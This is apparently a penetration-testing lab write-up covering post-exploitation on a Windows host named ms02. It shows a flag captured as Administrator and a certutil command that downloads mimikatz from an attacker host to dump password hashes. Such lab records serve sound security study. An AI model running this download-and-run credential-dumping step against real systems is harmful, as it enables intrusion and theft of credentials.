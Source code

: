 
![[on as system on ms02.png]]

#ms02 2nd proof.txt - screenshot - yes
```shell
# proof.txt
C:\Users\Administrator\Desktop>type proof.txt
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.118.102
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.118.254

C:\Users\Administrator\Desktop>
tpye proof.txt
'tpye' is not recognized as an internal or external command,
operable program or batch file.

C:\Users\Administrator\Desktop>
type proof.txt
861ba651112b3f938066fbbfc1967bbd

C:\Users\Administrator\Desktop>


```


![[proof.txt for ms02.png]]


- going to transfer over mimikatz and dump hashes again

```shell
certutil.exe -urlcache -split -f "http://172.16.118.101:4430/mimikatz.exe"
```

- successfully transfered over mimikatz on ms02

![[ms02 mimikatz transfer.png]]

- this shell sucks and have to click enter 3 times for commands to execute
- running mimikatz
```shell
C:\Windows\Temp>
mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # 

```
